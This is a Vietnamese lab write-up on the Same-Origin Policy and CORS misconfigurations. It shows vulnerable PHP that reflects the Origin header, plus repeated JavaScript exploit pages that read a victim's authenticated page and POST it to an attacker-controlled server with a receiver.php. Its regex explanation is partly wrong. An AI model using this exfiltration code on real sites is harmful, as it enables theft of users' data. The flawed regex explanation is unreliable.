# **CORS & SOP**
## **1. Understand SOP**
**Same-Origin Policy** hay **SOP** là policy hướng dẫn cách trình duyệt web tương tác giữa các trang web. Theo policy này, script trên một trang web chỉ có thể truy cập dữ liệu trên trang khác nếu cả hai trang có cùng nguồn gốc (same origin)\
**Origin** được hiểu là sự kết hợp của **URL scheme**, **hostname**, **port**\
Nó được triển khai để chống lại những mã độc trên 1 site không thể thực hiện trên một site khác



### **Examples of SOP**
Ví dụ:
- **Same domain, different port**: cùng domain nhưng khác port; `https://test.com:80` có thể truy cập dữ liệu từ `https://test.com:80/about` nhưng lại không thể truy cập dữ liệu từ `https://test.com:8080` bởi vì khác port
- **HTTP/HTTPS interaction**: cùng domain nhưng khác giao thức cũng không thể truy cập; `http://test.com` không thể truy cập vào `https://test.com` vì khác giao thức

### **Common Misconceptions**
1. **Scope of SOP**: hiểu lầm về phạm vi của SOP chỉ áp dụng với script; thực ra nó được áp dụng cho tất cả các tài nguyên trên web: *hình ảnh, style, frame*
2. **SOP Restricts All Cross-Origin Interactions**: SOP chỉ hạn chế một số tương tác cụ thể. Các ứng dụng web hiện đại thường sử dụng nhiều kỹ thuật khác nhau (như **CORS**, **postMessage**, v.v.) để cho phép giao tiếp cross-origin một cách an toàn và có kiểm soát 
3. **Same Domain Implies Same Origin**: cùng tên miền cũng không có nghĩa là cùng Origin, Origin ở đây còn được phân biệt bằng **protocol** và **port**

### **SOP Decision Process**


Hình ảnh trên biểu thị cho quá trình, thứ tự ưu tiên kiểm tra để quyết định là có cho truy cập vào trang khác hay không

## **2. Understanding CORS**
**Cross-Origin Resource Sharing** hay **CORS** là cơ chế được sinh ra để "nới lỏng" SOP một cách an toàn; được định nghĩa bằng các **HTTP Headers**

### **Different HTTP Headers Involved in CORS**
Các Header liên quan đến **CORS**:
- **Access-Control-Allow-Origin**: chỉ định cụ thể domain nào có thể truy cập tài nguyên
- **Access-Control-Allow-Methods**: chỉ định các method mà có thể dùng để truy cập như GET, POST, PUT, ...
- **Access-Control-Allow-Headers**: cho phép những header nào được sử dụng trong request
- **Access-Control-Max-Age**: Xác định thời gian kết quả của yêu cầu preflight có thể được lưu vào bộ đệm
- **Access-Control-Allow-Credentials**: cần header này để thực hiện đính kèm thông tin như: **session, user, pass,...** khi truyền; nhưng nó sẽ không hoạt động khi đi với `Access-Control-Allow-Origin: *` vì nó giảm bảo mật khi truyền thông tin quan trọng, nó chỉ đi với những domain cụ thể được cấu hình

### **Common Scenarios Where CORS is Applied**
Các trường hợp cần sử dụng đến CORS:
- **APIs and Web Services**: khi web muốn thực hiện gọi **API** ở một host khác, ví dụ frontend `example-client.com` muốn truy cập dữ liệu từ `example-api.com`
- **Content Delivery Networks (CDNs)**: thực hiện lấy dữ liệu từ những nguồn bên ngoài, ví dụ như: một browser gọi đến một máy chủ khác để lấy tài nguyên mà không cần phải tải nó về
- **Web Fonts**: tương tự như **CDNs**
- **Third-Party Plugins/Widgets**: cho phép các chức năng như ảnh mạng xã hội, chatbot
- **Multi-Domain User Authentication**: Các dịch vụ cung cấp dịch vụ đăng nhập một lần (SSO) hoặc sử dụng mã thông báo (như OAuth) để xác thực người dùng trên nhiều miền dựa vào CORS để trao đổi dữ liệu xác thực một cách an toàn.

### **Simple Requests vs. Preflight Requests**
**Simple Requests**:\
Trình duyệt coi một Simple Requests khi thỏa mản `3` điều kiện:
- **Method**: `GET`, `POST`, `HEAD`
>Tại sao? Vì đây là những phương thức mà một thẻ HTML form thông thường có thể gửi đi. Trình duyệt mặc định tin rằng các phương thức này không gây hại nghiêm trọng như `DELETE` hay `PUT`

- **Headers**: chỉ chứa các header an toàn `Accept`, `Accept-Language`, `Content-Language`, `Content-Type`, ...
- **Content-Type**: nếu là `POST` thì chỉ được gửi bằng những kiểu dữ liệu sau: `application/x-www-form-urlencoded`, `multipart/form-data`, `text/plain`

**Preflight Requests**:\
Preflight Request là một request tự động do trình duyệt tạo ra, sử dụng phương thức `OPTIONS`, nó được gửi trước request chính nhằm thăm dò xem request tiếp theo có phù hợp để gửi không

Điều kiện để kích hoạt Preflight:
- **Method**: các method không phải method của trường hợp **Simple Request**
- **Custom Header**: chứa những header khong nằm trong danh sách an toàn  
- **Content-Type**: chứa `Content-Type: application/json` hoặc `application/xml` thì mặc định là được kích hoạt

**Cách hoạt động**:
Ví dụ muốn gửi và nhận dữ liệu tại trang `myapp.com` đến backend `api.backend.com` bằng method `PUT`
- **Bước 1**: khi trình duyệt kích hoạt Preflight request, nó thực hiện gửi một request bằng method `OPTIONS` để thực hiện việc xác nhận với các Header
    - `Origin: https://myapp.com`: *Tôi là ai*
    - `Access-Control-Request-Method: PUT`: Tôi muốn dùng method gì
    - `Access-Control-Request-Headers: Authorization, Content-Type`: Tôi muốn gửi kèm những header gì
- **Bước 2**: `api.backend.com` thực hiện kiểm tra request OPTIONS để xem có thích hợp để gửi và nhận dữ liệu không, nếu phù hợp nó sẽ thực hiện trả về những Header
    - `Access-Control-Allow-Origin: https://myapp.com`: *Tôi cho phép domain này*
    - `Access-Control-Allow-Methods: PUT, DELETE`: *Tôi cho phép các method này*
    - `Access-Control-Allow-Headers: Authorization, Content-Type`: *Tôi cho phép các header này*
    - `Access-Control-Max-Age: 86400`: *Cho phép trình duyệt lưu cache kết quả này trong 24 giờ - header này có thể giảm thiểu số lần gửi request `OPTIONS` khi đã xác thực rồi*
- Bước 3: sau khi trình duyệt nhận được request chim mồi này, nó mới thực hiện gửi đi request `PUT` ban đầu mà người dùng thực hiện



## **3. ACAO in depth**
**Access-Control-Allow-Origin Header** là một header quan trọng trong CORS policy, khi một domain được xác nhận là có quyền truy cập vào tài nguyên của trang web, header này sẽ được gửi về cùng với domain cho phép đó hoặc có thể là `*` biểu thị rằng tất cả các domain đều được cho phép truy cập

### **ACAO Configurations**
Các cấu hình của **ACAO**:
- **Single Origin**: chỉ cho phép những request đến từ một domain nào đó mà đã được xác nhận, cấu hình này an toàn: `Access-Control-Allow-Origin: https://example.com`
- **Multiple Origins**: nó được thực hiện tự động dựa trên một danh sách domain mà ta đã tin tưởng cho phép thực hiện gửi và nhận dữ liệu
- **Wildcard Origin**: cho phép bất kì domain nào có thể thực hiện gửi và nhận tài nguyên, nó được sử dụng trong những trang web chứa những tài nguyên công khai, ai cũng có thể truy cập: `Access-Control-Allow-Origin: *`
- **With Credentials**: khi đi với `Access-Control-Allow-Credentials: true`, `Access-Control-Allow-Origin` cần phải được chỉ định cụ thể chứ không được dùng `*`



## **4. Common Misconfigurations**
1. **Null Origin Misconfiguration**: không cấu hình kiểm tra các domain được truy cập dữ liệu
2. **Bad Regex in Origin Checking**: web thực hiện việc kiểm tra bằng regex lỏng lẻo, ví dụ như `/example.com$/` thì `badexample.com` cũng được chấp nhận; kiểm tra bắt đầu bằng `example.com` thì `example.com.attacker123.com` cũng thỏa mãn, attacker có thể lợi dụng những điểm yếu này để thực hiện mạo danh domain để thực hiện hành động không hợp pháp
3. **Trusting Arbitrary Supplied Origin**: thay vì thực hiện kiểm tra domain thì web lại thực hiện nhét thẳng domain đó vào `Access-Control-Allow-Origin` rồi gửi lại response, điều này cũng gây ra logic tương tự với **Null Origin Misconfiguration**



## **5. Setup**
Trong bài lab này, ta có 3 web sau:
1. `corssop.thm`: web tồn tại lỗ hổng
2. `exploit.evilcors.thm`: web để lưu trữ và gửi mã độc cho nạn nhân 
3. `corssop.thm.evilcors.thm`: đây là web mô phỏng hành động victim sẽ nhấn vào link độc hại

## **6. Arbitrary Origin**
Tại [http://corssop.thm/arbitrary.php](http://corssop.thm/arbitrary.php) có logic phía backend có chứa lỗ hổng:

```php
if (isset($_SERVER['HTTP_ORIGIN'])){
    header("Access-Control-Allow-Origin: ".$_SERVER['HTTP_ORIGIN']."");
    header('Access-Control-Allow-Credentials: true');
}
```

Đoạn code này thực hiện kiểm tra có Header `Origin` không; nếu có thì thực hiện trả về  `Access-Control-Allow-Origin` với đúng origin vừa gửi đến --> đây chính là chỗ xảy ra lỗ hổng khi chấp nhận bất kì domain nào có thể thực hiện request đến trang web

Phần header `Access-Control-Allow-Credentials: true` bổ trợ cho việc có thể đính kèm thông tin nhạy cảm

Ta sẽ được toàn quyền ở một site `http://exploit.evilcors.thm/` - đây là site ta thực hiện lưu trữ mã JS độc hại và gửi cho nạn nhân



```html
<html>
  <head>
  <title>Data Exfiltrator Exploit</title>
  <script>
    //Function which will make CORS request to target application web page to grab the HTTP response
    function exploit() {
    var xhttp = new XMLHttpRequest();
    xhttp.onreadystatechange = function() {
      if (this.readyState == 4 && this.status == 200) {
        var all = this.responseText;
        exfiltrate(all);
     }
    };
    xhttp.open("GET", "http://corssop.thm/arbitrary.php", true);
    xhttp.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,\/;q=0.8");
    xhttp.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
    xhttp.withCredentials = true;
    xhttp.send();
    }

    function exfiltrate(data_all) {
          var xhr = new XMLHttpRequest();
          xhr.open("POST", "http://192.168.144.94/receiver.php", true); //Replace the URL with attacker controlled Server

          xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
          xhr.withCredentials = true;
          var body = data_all;
          var aBody = new Uint8Array(body.length);
          for (var i = 0; i < aBody.length; i++)
            aBody[i] = body.charCodeAt(i);
          xhr.send(new Blob([aBody]));
    }
    </script>
</head>
<body onload="exploit()">
<div style="margin: 10px 20px 20px; word-wrap: break-word; text-align: center;">
<textarea id="load" style="width: 1183px; height: 305px;">
```

Luồng khai thác, khi nạn nhân truy cập ứng link độc của attacker `http://exploit.evilcors.thm/index.php`, người dùng sẽ nhận được đoạn mã JS độc hại, nó thực thi trong nền, người dùng thực sự không nhìn thấy gì



Phần mã JS này thực hiện việc tự động gửi request đến máy chủ có lỗ hổng `http://corssop.thm/arbitrary.php` bằng method `GET`



Khi gửi request `GET` này, do web có lỗ hổng nên nó lấy thẳng header `Origin` có giá trị là `http://exploit.evilcors.thm` thực hiện điền thẳng vào giá tri của `Access-Control-Allow-Origin` và trả về response, điều này làm mã JS độc của trang web `http://exploit.evilcors.thm` vẫn có thể thực thi lấy thông tin tại trình duyệt của người dùng do `Access-Control-Allow-Origin` chấp nhận **Origin** trước đó

Ngay sau đó nó sẽ thực hiện lấy thông tin nhạy cảm của người dùng đó chính là toàn bộ trang web của người dùng, sau đó gửi cho server bên ngoài mà attacker quản lý (*ta phải tự cài hoặc dùng `AttackBox`*) có chứa file `receiver.php`:

```php
?php
header("Access-Control-Allow-Origin: {$_SERVER['HTTP_ORIGIN']}");
header('Access-Control-Allow-Credentials: true');

$postdata = file_get_contents("php://input");

file_put_contents('data.txt', $postdata);
?>
```



Khi đó ta nhận được toàn bộ HTML của người dùng qua file `data.txt`



Toàn bộ luồng được minh họa trong hình sau



## **6. Bad Regex in Origin**
Tại site `http://corssop.thm/badregex.php` có chứa logic kiểm tra **Origin** như sau:

```php
if (isset($_SERVER['HTTP_ORIGIN']) && preg_match('#corssop.thm#', $_SERVER['HTTP_ORIGIN'])) {
    header("Access-Control-Allow-Origin: ".$_SERVER['HTTP_ORIGIN']."");
    header('Access-Control-Allow-Credentials: true');
}
```

Đoạn code trên thực hiện kiểm tra giá trị của header `Origin` có chứa chuỗi `corssop.thm` không, nếu có thì thực hiện trả về `Access-Control-Allow-Origin` với chính domain đó

Dấu `#` biểu hiện cho chuỗi kí tự cần tìm kiếm trong regex, nhưng dấu `.` ở đây cũng có thể hiểu là một ký tự bất kì như `A`, `B`, `c`, `1`, `2`, `3`, ... khi đó chuỗi được tìm kiếm sẽ là `corssopAthm`, `corssopBthm`, ....

Khi đó có thể bypass được filter này\
Ta thử thực hiện khai thác

Tại `http://corssop.thm.evilcors.thm/index.php`, ta có thực hiện chèn mã độc vào trang web với nội dung

```php
<html>
  <head>
  <title>Data Exfiltrator Exploit</title>
  <script>
    //Function which will make CORS request to target application web page to grab the HTTP response
    function exploit() {
    var xhttp = new XMLHttpRequest();
    xhttp.onreadystatechange = function() {
      if (this.readyState == 4 && this.status == 200) {
        var all = this.responseText;
        exfiltrate(all);
     }
    };
    xhttp.open("GET", "http://corssop.thm/badregex.php", true);
    xhttp.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,\/;q=0.8");
    xhttp.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
    xhttp.withCredentials = true;
    xhttp.send();
    }

    function exfiltrate(data_all) {
          var xhr = new XMLHttpRequest();
          xhr.open("POST", "http://192.168.144.94/receiver.php", true); //Replace the URL with attacker controlled Server

          xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
          xhr.withCredentials = true;
          var body = data_all;
          var aBody = new Uint8Array(body.length);
          for (var i = 0; i < aBody.length; i++)
            aBody[i] = body.charCodeAt(i);
          xhr.send(new Blob([aBody]));
    }
    </script>
</head>
<body onload="exploit()">
<div style="margin: 10px 20px 20px; word-wrap: break-word; text-align: center;">
<textarea id="load" style="width: 1183px; height: 305px;">
```

Tương tự với kịch bản tước thì đoạn code này cũng có chức năng tương tự là lấy toàn bộ HTML của trang web chứa lỗ hổng sau khi người dùng thực hiện truy cập link

Luồng khai thác như sau:



Khi người dùng truy cập vào `http://corssop.thm.evilcors.thm/index.php`, mã JS trên sẽ được load để trình duyệt của nạn nhân xử lý gọi request `GET` đến `http://corssop.thm/badregex.php`



Khi gửi request `GET`, trình duyệt sẽ gửi kèm với `Origin: corssop.thm.evilcors.thm` để web bên kia có thể quyết định xem dữ liệu có thể được trả về cho trang web của hacker hay không\
Vì regex là `#corssop.thm#` nên `corssop.thm.evilcors.thm` cũng thỏa mãn do dấu `.` trong biểu thức regex có thể được hiểu là `.thm.evilcors.`



Chính vì vậy web đã trả về `Access-Control-Allow-Origin: http://corssop.thm.evilcors.thm` cho phép JS của hacker-web có thể thực hiện đọc toàn bộ nội dung của trang web có lỗ hổng cho máy chủ mà attacker có quyền điều khiển

